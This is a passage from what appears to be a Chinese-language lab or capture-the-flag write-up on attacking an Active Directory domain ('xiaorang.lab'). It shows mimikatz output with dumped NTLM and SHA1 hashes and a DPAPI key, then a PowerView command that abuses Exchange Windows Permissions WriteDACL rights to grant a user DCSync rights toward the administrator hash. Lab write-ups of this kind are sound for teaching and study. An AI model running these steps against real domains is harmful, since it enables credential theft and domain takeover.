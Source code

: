 [![](assets/1709193375-a7c1c2740b985c2939eb81d1e5d23de0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205102-dd18b32c-d56e-1.png)

```bash
* Username : XIAORANG-EXC01$
 * Domain   : XIAORANG
 * NTLM     : 88f4cf50b8ecdb0cf5bfe4e24768c3e1
 * SHA1     : c6f3c7b125491ffad07945f560d1ce8bb1e334dc

 * Username : Zhangtong
 * Domain   : XIAORANG
 * NTLM     : 22c7f81993e96ac83ac2f3f1903de8b4
 * SHA1     : 4d205f752e28b0a13e7a2da2a956d46cb9d9e01e
 * DPAPI    : ed14c3c4ef895b1d11b04fb4e56bb83b
```

这里我们要进行分析域内账户关系，发现账户是隶属于`Exchange Windows Permissions`这个组中，而这个组具有 write 域内 acl 权限，可以通过`mimikatz`拿到的域内用户`Zhangtong的dcsync属性`，接下来我们要思考如何去获取`管理员hash`

### dcsync 操作获取域用户

这里也可以启动`BloodHound` 来分析，太累了留着后面弄  
通过`Write DACL`权限可以直接修改用户权限，以`Zhangtong`的身份给添加 DCSync 权限\`

> powershell -command "cd C:/Users/test/Desktop/; Import-Module .\\powerview.ps1; Add-DomainObjectAcl -TargetIdentity 'DC=xiaorang,DC=lab' -PrincipalIde Zhangtong -Rights DCSync -Verbose"
